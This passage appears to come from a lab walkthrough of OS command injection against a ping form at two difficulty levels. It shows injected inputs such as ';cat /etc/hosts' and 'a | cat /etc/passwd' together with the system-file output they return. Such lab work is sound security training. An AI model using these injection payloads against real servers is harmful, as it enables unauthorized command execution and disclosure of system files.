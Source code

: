 ```txt
_apt:x:100:65534::/nonexistent:/bin/false
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

It has not been done since it has already been demonstrated that it is possible to execute commands on the server but to obtain the information related to the hosts we should simply change the file read by `/etc/hosts` leaving as value to be entered `;cat /etc/hosts`; `;cat /etc/hosts`.
#### Normal

We try to repeat the previous trick with the `;` but this time we do not succeed, this implies that the code in charge of executing the command has some kind of previous filter so we try more Shell tricks. Another way to execute several commands is to use the conditional execution of success using `&&`, given that for the following command to be executed in this case **if** we need the ping command to work so we choose to add before the Google DNS IP `8.8.8.8.8`, as a test command we opt for `ls`, resulting the final test in `8.8.8.8.8 && ls` this test unfortunately does not work either.
Once tested the conditional execution of success we try the opposite, in this case we need the ping command to fail forcibly so we introduce something that forces the error such as an `a` character, the text to enter to test is `a | ls` this time if we get the command to run. Now to get the contents of `/etc/passwd` again simply `a | cat /etc/passwd`.

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

`a | cat /etc/hosts`

```txt
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.17.0.2	7abe71b66849
```
#### Hard
